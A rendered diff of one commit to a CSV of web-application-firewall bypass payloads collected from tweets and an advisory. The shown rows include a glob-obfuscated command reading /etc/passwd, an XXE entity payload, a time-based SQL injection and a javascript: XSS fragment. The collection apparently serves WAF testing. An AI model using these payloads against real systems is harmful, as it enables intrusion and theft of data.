

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -459,3 +459,3 @@ https://twitter.com/0SPwn/status/1651740036717576195,"""><a href=jav&#x0D;ascrip
 https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/p?s?w?,ptrav
-https://twitter.com/gdprAI/status/1653160069109026816,<!DOCTYPE foo [<!ENTITY % a """&#x3c;&#x21; ... omitted .., xxe
+https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
 https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
```
